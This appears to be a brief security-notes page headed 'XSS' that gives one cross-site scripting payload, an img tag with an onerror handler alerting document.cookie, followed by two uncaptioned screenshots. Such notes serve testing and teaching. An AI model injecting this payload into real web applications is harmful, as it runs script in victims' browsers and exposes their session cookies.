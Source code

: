 # XSS

```bash
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../../../.gitbook/assets/Untitled (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/Untitled 1 (3).png" alt=""><figcaption></figcaption></figure>

